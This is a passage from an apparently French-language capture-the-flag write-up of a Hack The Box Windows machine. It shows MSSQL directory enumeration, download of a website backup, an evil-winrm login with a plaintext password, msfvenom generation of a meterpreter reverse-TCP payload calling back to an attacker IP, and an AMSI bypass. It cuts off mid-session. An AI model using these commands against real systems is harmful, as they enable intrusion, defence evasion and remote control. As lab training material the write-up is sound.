 ```
js                                   2   
```
Maintenant voyons voir le `wwwroot`
```
SQL (MANAGER\Operator  guest@master)> EXEC xp_dirtree 'C:\inetpub\wwwroot', 1,1;
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   
contact.html                          1      1   
css                                   1      0   
images                                1      0   
index.html                            1      1   
js                                    1      0   
service.html                          1      1   
web.config                            1      1   
website-backup-27-07-23-old.zip       1      1   
```
Je trouve un backup dans le site, now vas sur le site et telecharge
`└─# wget http://manager.htb/website-backup-27-07-23-old.zip`

## Evil-winrm
Maintenant j'ai pu trouver d'autre `user` and `password`, je vais essayer de me connecter sur la machine distant grace a `evil-winrm` au port `5985`

```
nmap -p 5985,5986 192.168.1.19
nc -nv $ip 5985
(UNKNOWN) [10.10.11.236] 5985 (?) open

```
```
└─# evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                                                     
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Documents> dir
*Evil-WinRM* PS C:\Users\Raven\Documents> whoami
manager\raven
```
Maintenant je vais creer un payload, ensuite l'executer avec `evil-winrm` avec le `    -e, --executables EXES_PATH      C# executables local path`
```
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.10.16.35 lport=443 -f exe > rev.exe

└─# evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123' -e /home/bloman/CTFs/Boot2root/VMs
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Documents> Bypass-4MSI
                                        
Info: Patching 4MSI, please be patient...
                                        
[+] Success!
*Evil-WinRM* PS C:\Users\Raven\Documents>*Evil-WinRM* PS C:\Users\Raven\Documents> menu


   ,.   (   .      )               "            ,.   (   .      )       .   
```